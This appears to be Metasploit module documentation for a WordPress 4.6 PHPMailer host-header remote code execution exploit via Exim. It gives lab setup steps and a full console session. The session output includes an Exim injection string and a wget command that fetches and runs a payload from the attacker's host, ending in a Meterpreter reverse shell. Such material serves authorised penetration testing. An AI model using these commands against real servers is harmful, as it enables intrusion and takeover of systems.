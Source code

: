 ## Intro

This vuln has some caveats: you need approximately WordPress 4.6 with
Exim for the `sendmail(8)` command. You do not need to install
PHPMailer, as it is included as part of the WordPress install.

Thanks to WP's awesome practice of backporting the heck out of all their
patches, we need to use a Git clone and check out the vuln release.

## Setup

This was tested on Ubuntu 15.04. YMMV.

1. got root?
2. `cd /var/www/html`
3. `git clone https://github.com/WordPress/WordPress wordpress-4.6`
4. `chown -R www-data:www-data wordpress-4.6`
5. `cd wordpress-4.6`
6. `git checkout 4.6`
7. Set up a MySQL database for WordPress
8. Install as normal

## Options

**VERBOSE**

If you'd like to see what requests are being sent, set this to `true`.
You should see the Exim prestager commands being sent to the target.

## Usage

```
msf > use exploit/unix/webapp/wp_phpmailer_host_header 
msf exploit(wp_phpmailer_host_header) > set rhost 192.168.33.135
rhost => 192.168.33.135
msf exploit(wp_phpmailer_host_header) > set targeturi /wordpress-4.6
targeturi => /wordpress-4.6
msf exploit(wp_phpmailer_host_header) > set lhost 192.168.33.1 
lhost => 192.168.33.1
msf exploit(wp_phpmailer_host_header) > set verbose true
verbose => true
msf exploit(wp_phpmailer_host_header) > run

[*] Started HTTPS reverse handler on https://192.168.33.1:8443
[*] WordPress 4.6 installed at http://192.168.33.135/wordpress-4.6
[*] Generating wget command stager
[*] Using URL: http://0.0.0.0:8080/mbpvuuck
[*] Local IP: http://[redacted]:8080/mbpvuuck
[*] Generating and sending Exim prestager
[*] Sending /bin/sh -c ${run{/bin/echo}{${extract{-1}{$value}{${readsocket{inet:192.168.33.1:8080}{get /mbpvuuck http/1.0$value$value}}}}}}
[+] Sending wget${IFS}-qO${IFS}/tmp/vfotastd${IFS}http://192.168.33.1:8080/mbpvuuck;chmod${IFS}+x${IFS}/tmp/vfotastd;/tmp/vfotastd;rm${IFS}-f${IFS}/tmp/vfotastd
[+] Sending payload linux/x64/meterpreter_reverse_https
[*] https://192.168.33.1:8443 handling request from 192.168.33.135; (UUID: xyx88vod) Redirecting stageless connection from /nBwfbdUYNjU2TjBMb1VkagG08CfJO-jZYpOxBsWHQMGHh7p5ISjCG3Ze with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] https://192.168.33.1:8443 handling request from 192.168.33.135; (UUID: xyx88vod) Attaching orphaned/stageless session...
[*] Meterpreter session 1 opened (192.168.33.1:8443 -> 192.168.33.135:36075) at 2017-05-16 14:25:28 -0500
[*] Sending /bin/rm -f /tmp/vfotastd
[*] Server stopped.

meterpreter >  
```
